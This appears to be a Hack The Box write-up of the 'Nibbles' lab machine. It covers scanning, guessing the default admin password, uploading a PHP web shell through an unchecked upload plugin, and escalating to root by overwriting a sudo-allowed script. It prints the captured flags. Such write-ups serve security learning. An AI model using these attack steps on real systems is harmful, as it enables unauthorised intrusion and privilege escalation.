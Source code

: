 ```yaml
---
layout: offsec
category: [offsec]
---
```


![banner](/assets/images/nibbles.png) 
# Nibbles: 10.10.10.75


## Scanning:

<br>

```bash
nmap 10.10.10.75

Starting Nmap 7.01 ( https://nmap.org ) at 2018-05-05 19:14 EDT
Nmap scan report for 10.10.10.75
Host is up (0.11s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 21.39 seconds
```

<br>

## Gaining Access:

<br>

As always, let's start exploring the HTTP application running on port 80.

![](/assets/images/75_index.html.png)

![](/assets/images/75_index.source.png)

Well, nothing interesting there.. Let's use <a href='https://tools.kali.org/web-applications/dirb'>dirb</a> to bruteforce all common known directories as so `dirb 10.10.10.75/nibbleblog/`


__Note: I created a function for calling dirb:__


_~/.zshrc_
```bash
dirb(){
    echo 'HTTPS'
    echo
    /home/srbz/._bin/dirb/dirb https://$1 /home/srbz/._bin/dirb/wordlists/common.txt
    echo 'HTTP'
    echo
    /home/srbz/._bin/dirb/dirb http://$1 /home/srbz/._bin/dirb/wordlists/common.txt
}
```

Apparently, there's no other way to login than guessing. Hack the box usually use the challenge name as the password. 

`username: admin`

`password: nibbles`

![](/assets/images/75_blog.png)

<br>

## Maintaining Access:

<br>

Once logged in, we can upload files by using the plugin`my_image.` The vulnerability of that plugin is that it does not verrify the file extension. So, I uploaded my <a href='https://github.com/KevinCarroll7737/tools/blob/master/shell.php'>shell.php</a>

![](/assets/images/75_upload.png)

By running <a href='https://github.com/KevinCarroll7737/tools/blob/master/linenum.sh'>linEnum.sh</a>, I've been able to see fast and clearly which files the user `nibbler` had the control of.

```bash
bash linenum.sh

(...)

utching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Ok so we can use `/home/nibbler/personal/stuff/monitor.sh` with sudo without giving password. Let's change what's in this script.

<br>

## Covering Tasks:

<br>

```bash
echo 'cat /root/root.txt > /tmp/srbz.txt; chown nibbler:nibbler /tmp/srbz.txt; chmod 777 /tmp/srbz.txt' >  /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
cat /tmp/srbz.txt
b6d745c0dfb6457c55591efc898ef88c
cat /home/nibbler/user.txt
b02ff32bb332deba49eeaed21152c8d8
```
